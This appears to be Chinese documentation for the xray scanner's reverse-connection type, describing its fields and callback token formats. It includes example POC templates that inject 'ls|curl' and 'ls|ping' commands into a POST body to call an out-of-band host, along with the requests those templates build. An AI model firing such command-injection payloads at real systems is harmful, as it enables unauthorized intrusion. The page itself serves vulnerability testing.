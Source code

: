 ```yaml
---
title: 'reverseType'
description: '`reverseType`类型主要是返回了反连平台提供的各个信息，现假设变量名为 `reverse`（需要先使用 `newReverse()` 生成实例)'
---
```


<Info>本文中的`domain`将拿`example.com`作为示例，`ip`将拿`10.1.1.1`作为示例，端口将拿`8899`作为示例</Info>

## 类型介绍（Types）

| 变量名                             | 类型                        | 说明                            | 适用版本         |
|---------------------------------|---------------------------|-------------------------------|--------------|
| `reverse.url`                   | `urlType`                 | 反连平台的 url                     | xray ≥ 1.8.4 |
| `reverse.domain`                | `string`                  | 反连平台的域名                       | xray ≥ 1.8.4 |
| `reverse.rmi`                   | `urlType`                 | 反连平台的rmi协议url                 | xray ≥ 1.9.4 |
| `reverse.ip`                    | `string`                  | 反连平台的 ip 地址                   | xray ≥ 1.8.4 |
| `reverse.is_domain_name_server` | `bool`                    | 反连平台的 domain 是否同时是 nameserver | xray ≥ 1.8.4 |

## 概念介绍（Conceptual）

在reverse生成的不管是子域名还是urlPath，都会有一些像随机数一样的数据：

- `http://10.1.1.1:8899/p/9b8d02/sesI/`
- `p-6ab8d8-fun0.example.com`
- `http://10.1.1.1:8899/i/a8c723/qste/z6f2/`
- `rmi://10.1.1.1:8899/i/hcSvqI7U/b68631/9gir/7yqk/PQ5P8iBh/`
- `http://10.1.1.1:8899/t/449296/docL/0/x.js`

之所以要有这样的path,subdomain，主要是有以下几点原因：

1. 为了区分反连平台收到的请求是否是xray发出的
2. 为了区分不同的请求是由不同插件，不同任务发送的，做好区分
3. 方便异步回调，加快扫描

## 格式介绍（Format）

- `http://10.1.1.1:8899/i/a8c723/qste/z6f2/`
  - `i`: 代表该链接是由xray申请产生
  - `a8c723/qste/z6f2`: token，groupId，id的组合
- `p-6ab8d8-fun0.example.com`
  - `p`: 代表该域名是由人在反连平台界面上点击生成
  - `6ab8d8-fun0`: token，groupId的组合
- `http://10.1.1.1:8899/t/449296/docL/0/x.js`
  - `t`: 代表该链接是由模版生成
  - `449296/docL/0`: token，groupId，id的组合
  - `x.js`: 文件名

## 常见使用场景（Common Usage Scenarios）

### reverse.url

- **POC**

  ```yaml
  name: poc-yaml-test
  manual: true
  transport: http
  set:
    reverse: newReverse()
    reverseURL: reverse.url
  rules:
    r0:
      request:
        cache: true
        method: POST
        path: /run
        body: test=ls|curl+{{reverseURL}}
      expression: reverse.wait(5)
  expression: r0()
  detail:
    author: test
    links:
      - http://test.com
  ```

- **构建出的请求**

  ```HTTP
  POST /run HTTP/1.1
  Host: 127.0.0.1
  User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
  Content-Length: 53
  Accept-Encoding: gzip, deflate
  Connection: close
  
  test=ls|curl+http://10.1.1.1:8899/i/a8c723/qste/z6f2/
  ```

- 在测试目标接收到这样的请求后，如果存在漏洞，则会执行`curl http://10.1.1.1:8899/i/a8c723/qste/z6f2/`这样一条命令，这时我们的反连平台就会收到该请求，确认漏洞存在。

### reverse.domain

- **POC**

  ```yaml
  name: poc-yaml-test
  manual: true
  transport: http
  set:
    reverse: newReverse()
    reverseDomain: reverse.domain
  rules:
    r0:
      request:
        cache: true
        method: POST
        path: /run
        body: test=ls|ping+{{reverseDomain}}
      expression: reverse.wait(5)
  expression: r0()
  detail:
    author: test
    links:
      - http://test.com
  ```

- **构建出的请求**

  ```HTTP
  POST /run HTTP/1.1
  Host: 127.0.0.1
  User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
  Content-Length: 43
  Accept-Encoding: gzip, deflate
  Connection: close
  
  test=ls|ping+i-eeec7b-sna3-2r77.example.com
  ```

- 在测试目标接收到这样的请求后，如果存在漏洞，则会执行`ping i-eeec7b-sna3-2r77.example.com`这样一条命令，这时我们的反连平台就会收到该请求，确认漏洞存在。
